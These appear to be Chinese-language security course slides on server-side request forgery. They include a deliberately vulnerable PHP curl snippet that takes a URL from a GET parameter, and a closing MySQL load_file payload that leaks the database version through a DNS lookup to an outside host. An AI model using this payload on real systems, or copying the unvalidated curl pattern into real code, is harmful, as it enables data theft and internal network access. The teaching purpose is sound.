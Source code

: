 # 12. 服务端请求伪造 {id="ssrf"}

---

**Server** Side Request Foregery, SSRF

---

* `文件包含`、`XXE 注入`、`反序列化漏洞` 都可以被用来构造和触发 `SSRF`
    * 这就是典型的「组合漏洞」和「链式漏洞利用」
* 严格来说，`SSRF` 不是一种独立 **漏洞类型** ，而是一种 **漏洞利用类型**

---

## 一段 SSRF 风险代码 {id="ssrf-code-snippet"}

```php
<?php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}
$url = $_GET['url'];
curl($url);
```

---

由于 curl 支持的协议类型非常广泛（根据官网描述可知有不下 20 种网络协议均可以通过 curl 访问读取），因此上述漏洞代码可以访问诸如：服务器上本地文件（利用 ``file://``）和远程 Web 服务器上的文件（利用 ``http://`` 和 ``https://``）等等。

---

## 另类 SSRF {id="ssrf-misc"}

* 除了文件读取时容易造成 SSRF 漏洞（例如文档、图片、音视频处理等在接受文件路径输入参数时很可能同时支持本地和网络协议 URL）
* 数据库的一些内置功能（加载网络地址时会自动对其中包含的域名字段进行 DNS 查询）也会被利用在 SQL 注入的过程中获取数据

---

### SQL 注入过程中的 SSRF {id="ssrf-in-sqli"}

以 [sqlmap](http://sqlmap.org/) 为例，在其众多数据获取技巧中提供了一个命令行参数 `--dns-domain` 就是实现了利用 SQL 数据库在执行一些特定函数时会对其中传入的参数当作域名进行查询这个特性的 `基于 DNS 的带外数据回传`

---

```sql
select load_file(concat('\\\\', version(), '.6a7087aa4e3b2c743ed1.d.zhack.ca\\1.txt'));
```
